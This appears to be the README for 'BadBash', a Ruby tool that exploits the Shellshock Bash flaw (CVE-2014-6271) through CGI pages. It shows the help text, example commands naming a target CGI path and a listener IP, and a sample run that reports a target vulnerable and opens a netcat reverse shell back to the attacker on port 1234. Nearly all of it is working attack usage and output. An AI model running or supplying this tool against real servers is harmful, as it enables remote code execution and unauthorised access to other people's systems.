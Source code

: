 ================================================================================================

BadBash is a CVE-2014-6271 RCE exploit tool. The basic version only checks for the HTTP CGI site and only provides netcat reverse shell on port 1234.


Developer : Andy Yang
Version : 0.1.0
License : GPLv3

================================================================================================
RainMak3r@Could:~/Desktop# ruby BadBash.rb  -h

BadBash - CVE-2014-6271 RCE tool by Andy Yang
Basic version only checks for HTTP site
Basic version only provides netcat reverse shell on port 1234


EXAMPLE USAGE:

     ./BBash.rb  -t 'www.target.com/cgi-folder/cgi.sh' -d '127.0.0.1'
     ./BBash.rb  -t '10.0.0.1/cgi-folder/cgi.sh' -d '127.0.0.1'
    -t, --Target CGI path            Full path of CGI page
    -d, --Destination IP             Your IP address that listen to an inbound connection
    -h, --help                       Display help

================================================================================================
Example of usage.
================================================================================================
RainMak3r@Could:~/Desktop#ruby BadBash.rb -t '172.16.235.140/cgi-bin/Andy.sh' -d '172.16.189.1'

[Info]     Checking if the target is vulnerable........

[Info]     This may take up to 10 seconds........

[Info]     Target is vulnerable!!!

[Info]     Please use NC to listen on port 1234 for reverse shell..........

[Info]     Exploiting for a reverse shell to connect 172.16.189.1:1234 via netcat ..........


